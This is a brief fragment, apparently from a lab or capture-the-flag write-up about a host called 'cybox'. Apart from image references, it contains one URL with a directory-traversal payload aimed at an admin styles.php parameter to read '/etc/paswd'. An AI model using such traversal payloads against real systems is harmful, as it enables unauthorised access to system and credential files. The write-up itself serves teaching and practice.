 ```view-source:http://monitor.cybox.company/admin/styles.php?style=../../../../../../../../etc/paswd```
![29](/assets/img/sample/cybox/29.png)














